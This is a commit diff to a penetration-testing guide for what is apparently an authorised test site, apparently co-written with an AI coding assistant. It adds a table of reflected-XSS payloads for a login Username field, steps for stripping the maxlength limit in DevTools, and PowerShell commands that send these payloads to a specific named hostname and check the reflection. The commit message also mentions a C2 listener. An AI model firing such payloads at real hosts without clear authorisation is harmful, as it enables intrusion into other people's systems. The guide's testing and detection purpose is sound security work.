

Before and after one commit to DrHayabusa/HELPAG-VAPT-Test-Site, a Markdown page: docs/tda/TDA_FINAL_LINE_BY_LINE.md, the part around one of its changes. Shown at 97% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Improve XSS section with manual field payloads; explain C2 firewall need
Add a manual XSS payload table for the Username field (why each is shaped that way
+ char counts vs maxlength), keep the PowerShell commands, and explain why the C2
listener needs an inbound firewall rule even on the same subnet.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01C5jtnPmt3BYmjg84GeN6Wi

````diff
--- a/docs/tda/TDA_FINAL_LINE_BY_LINE.md
+++ b/docs/tda/TDA_FINAL_LINE_BY_LINE.md
@@ -34,13 +34,36 @@ Prints time + hostname + your IP — your marker for finding events in Splunk.
 
 # 1. WEB — XSS (UC0229)
 
+## 1a. Manual test — type these in the Username box (browser)
+The username reflects into the input's `value="..."`, with `maxlength="25"` (client-side
+only). Type a payload in the **Username** field, put anything in **Password**, click
+**Log in**, and watch for an alert popup or the payload rendering in the error area.
+
+| # | Payload (paste in Username) | Why it's shaped this way | Chars |
+|---|---|---|---|
+| 1 | `"><svg onload=alert(1)>` | **Best first try** — `">` escapes the double-quoted `value`, `<svg onload>` runs JS | 23 ✅ |
+| 2 | `'><svg onload=alert(1)>` | same, if the value uses **single** quotes | 23 ✅ |
+| 3 | `"><img src=x onerror=alert(1)>` | fallback if `svg` is filtered (remove maxlength first) | 29 |
+| 4 | `" onmouseover=alert(1) x="` | stays **inside** the attribute — fires when you hover the field | 25 ✅ |
+| 5 | `"autofocus onfocus=alert(1)>` | auto-fires on page load (no interaction) — remove maxlength | 27 |
+| 6 | `<svg onload=alert(1)>` | if it reflects as **plain text** (e.g. in the error message), not an attribute | 21 ✅ |
+| 7 | `"><script>alert(1)</script>` | classic (often blocked / won't run) — remove maxlength | 27 |
+
+> To use payloads longer than 25 chars: in DevTools, click the `txtUsername` input →
+> delete `maxlength="25"` → then paste the longer payload.
+
+**Result:** alert popup or the `<svg>`/`<img>` renders = reflected XSS (vuln). Plain
+text showing the characters = escaped (safe). WAF block page = detection caught it.
+
+## 1b. PowerShell test (sends it for you; bypasses maxlength; good for WAF detection)
+
 **Command 1 — marker test (find how input reflects)**
 ```powershell
 $r = Invoke-WebRequest "https://hcms.aaagroup.com/M/Home/Authenticate" -Method POST -Body @{userName='xsstest123';password='x'} -UseBasicParsing; $r.Content | Select-String 'xsstest123'
 ```
 Submits a harmless marker and shows how it comes back (inside `value="..."`, `value='...'`, or plain text) — this decides which payload to use.
 
-**Command 2 — XSS payload (value breakout, fits maxlength 25)**
+**Command 2 — send the XSS payload**
 ```powershell
 Invoke-WebRequest "https://hcms.aaagroup.com/M/Home/Authenticate" -Method POST -Body @{userName='"><svg onload=alert(1)>';password='x'} -UseBasicParsing
 ```
@@ -51,8 +74,6 @@ Sends `"><svg onload=alert(1)>` as the username — `">` breaks out of the value
 (Invoke-WebRequest "https://hcms.aaagroup.com/M/Home/Authenticate" -Method POST -Body @{userName='"><svg onload=alert(1)>';password='x'} -UseBasicParsing).Content | Select-String 'svg onload=alert'
 ```
 If it returns your payload **unescaped**, the app is vulnerable; if it shows `&lt;svg...`, it's escaped (safe).
-
-> Manual browser version: type `"><svg onload=alert(1)>` in the Username box → Log in → alert popup = XSS.
 
 ---
 
````
Also changed, not shown: other parts of docs/tda/TDA_FINAL_LINE_BY_LINE.md (+8 -1 lines).
